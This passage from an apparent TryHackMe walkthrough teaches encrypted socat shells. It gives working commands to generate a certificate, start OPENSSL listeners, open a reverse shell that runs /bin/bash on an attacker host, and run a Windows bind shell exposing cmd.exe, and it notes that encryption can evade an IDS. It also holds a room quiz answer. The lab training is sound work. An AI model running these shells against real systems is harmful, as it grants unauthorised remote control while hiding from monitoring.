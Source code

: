 ## Task 7 Socat Encrypted Shells
One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.

We covered how to create basic shells in the previous task, so that syntax will not be covered again here. Suffice to say that any time `TCP` was used as part of a command, this should be replaced with `OPENSSL` when working with encrypted shells. We'll cover a few examples at the end of the task, but first let's talk about certificates.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
We then need to merge the two created files into a single `.pem` file:

`cat shell.key shell.crt > shell.pem`

Now, when we set up our reverse shell listener, we use:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`

This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.

To connect back, we would use:

`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

The same technique would apply for a bind shell:

Target:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`

Attacker:

`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:

![image](https://github.com/AChen1719/tryhackme-walkthrough/assets/99749834/b3f0539c-681c-4812-b1b9-c5b5f013c2eb)

This technique will also work with the special, Linux-only TTY shell covered in the previous task -- figuring out the syntax for this will be the challenge for this task. Feel free to use the Linux Practice box (deployable at the end of the room) to experiment if you're struggling to obtain the answer.

# Answer the questions below
What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"  `socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0`

